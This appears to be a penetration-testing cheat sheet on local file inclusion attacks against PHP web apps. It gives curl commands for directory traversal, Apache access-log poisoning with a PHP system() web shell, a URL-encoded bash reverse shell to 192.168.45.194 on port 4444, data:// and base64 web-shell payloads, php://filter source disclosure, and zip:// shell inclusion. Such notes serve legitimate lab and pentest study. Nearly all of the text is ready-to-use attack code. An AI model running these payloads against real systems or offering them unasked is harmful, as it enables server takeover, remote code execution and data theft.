


Use cURL to identify directory traversal vulnerability and find a file we can poison
also parameters such as; file=, lang=, view=, load=, mod=, include=, template=

curl http://vulnerable_host/index.php?page=home
```
curl http://vulnerable_host/index?page=../../var/log/apache2/access.log
```

Once found, we inject our code into User-Agent, URL, Headers, etc.
```
<?php echo system($_GET['cmd']); ?>
```


Now update the page parameter with the relative path 
```
curl http://vulnerable_host/preview.php?page=../../var/log/apache2/access.log
```

Now we can try a reverse shell (URL encoded bash shell)
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.194%2F4444%200%3E%261%22
```


Data:// Wrapper
When we cannot poison files we can use this wrapper to embed plaintext or base64 encoded data.
```
curl "http://vulnerable_host/index.php?page=data://text/plain,<?php%20echo%20system('ls');>?"
```
For base64 encoded
```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```
```
curl "http://vulnerable_host/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

Filter Wrapper
If ../../../index.php reveals raw code then use php://filter wrapper
- php://filter/convert.base64-encode/resource=index.php
```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

Zip:// Wrapper
To include a shell as a zip file and get command execution
First create a zip from with shell.php (can be reverse shell or webshell)

page=file://uploads/file.zip%23shell.php
or for webshell
page=file://uploads/file.zip%23shell&cmd=id

See Zipper for working example
https://hackviser.com/tactics/pentesting/web/lfi-rfi
